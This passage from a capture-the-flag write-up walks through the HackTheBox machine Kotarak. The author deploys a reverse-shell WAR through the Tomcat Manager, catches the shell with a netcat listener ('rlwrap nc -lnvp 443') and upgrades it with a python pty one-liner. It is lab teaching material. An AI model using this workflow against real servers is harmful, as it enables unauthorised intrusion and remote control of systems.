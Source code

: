 
Then, in the Manager interface, I select the `WAR` archive and deploy it:

![deploy-26](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Kotarak/img/deploy-26.png)


After we hit `List Applications`, we should see our newly deployed app located at `/rshell`:

![app-27](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Kotarak/img/app-27.png)


Now I start the local listner with:

```bash
rlwrap nc -lnvp 443
```

And click on the link which gives me a shell:

![shell-28](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Kotarak/img/shell-28.png)



## Privilege Escalation

After I landed on the box I spwaned a TTY shell by running:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Both from the output of the previously ran `hostname` command, as well as from our newly spwaned TTY shell prompt, we can see that the hostname of the target is set to `kotarak-dmz`. This is the first time I see such a hostname on a HTB machine, and it tells me that perhaps there is another VM or container on the system? 
